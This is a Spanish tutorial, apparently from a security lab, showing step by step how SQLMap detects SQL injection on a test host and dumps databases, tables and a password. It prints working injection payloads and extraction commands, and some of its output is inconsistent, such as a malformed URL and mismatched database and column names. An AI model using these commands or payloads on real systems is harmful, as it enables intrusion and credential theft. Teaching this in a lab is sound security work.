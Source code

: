 Ejecutar un ataque SQLI, requiere encontrar la vulnerabilidad SQLI dentro de una aplicación web. Sin embargo, hacer eso de forma manual puede requerir tiempo y esfuerzo.

SQLMap es una herramienta automatizada para detectar y explotar SQLI en aplicaciones web. Simplifica el proceso de identificar estas vulnerabilidades.

Es una herramienta de CLI, por lo que si escribes `--help` podrás ver todas las flags que puedes usar. Si no quieres hacerlo manualmente en cada comando, puedes activar la flag `--wizard` que hará que te guíe por el proceso:

```shell
user@ubuntu:~$ sqlmap --wizard
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]

[*] starting at 08:42:50

[08:42:50] [INFO] starting wizard interface
Please enter full target URL (-u): 
```

La flag `--dbs` te ayuda a extraer los nombres de las bases de datos. Una vez los tengas, puedes extraer información de las tablas de esa base de datos usando `-D database_name --tables`. Después de obtener las tablas, puedes usar `-D database_name -T table_name --dump`. Las diferentes flags nos ayudan a extraer información detallada de las bases de datos. Veamos un caso práctico:

El primer paso es buscar una URL vulnerable. Muchas veces te encontrarás con URLs que usan peticiones GET (como `http://sqlmaptesting.thm/search?cat=1`) para obtener la información, si ves una de estas puedes testear la URL con la flag `-u`.

Usaremos una URL web supuesta vulnerable: `http://sqlmaptesting.thm` para la demostración. Supón que esta página tiene una opción de búsqueda y cuando haces click en ella y buscas algo, la URL se convierte en `http://sqlmaptesting.thm/cat=1`, que usa el parámetro GET `cat=1`. Como sabemos, estas URLs pueden ser vulnerables, por lo que probamos:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

Los resultados muestran que diferentes tipos de SQLI se han identificado en la URL objetivo. Estas son técnicas de SQLI. Mientras que en una "boolean based" usas booleanos, como `1=1`, en una "error based" modificas la query para generar errores y estos errores contienen información valiosa sobre los datos.

Usemos flags para explotar la URL:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

Después de ejecutar  el comando vemos que hay dos bases de datos: `users` y `members`. Seleccionamos `users`, para ello definimos la base de datos después de la flag `-D` y usaremos `--tables` para obtener el nombre de las tablas:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Ahora que tenemos las tablas de la base de datos, extraeremos la información de `thomas`. Para ello, definiremos la base de datos con la flag `-D`, la tabla con `-T` y la flag `--dump` para extraer los datos.

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

También se pueden usar URLs que usen el método POST, donde la información se manda en el cuerpo de la petición en lugar de la URL. Para hacer esto debes interceptar una petición y guardarla en un `.txt` para después usarla con SQLMap de la siguiente manera:

```shell
user@ubuntu:~$ sqlmap -r intercepted_request.txt`
```

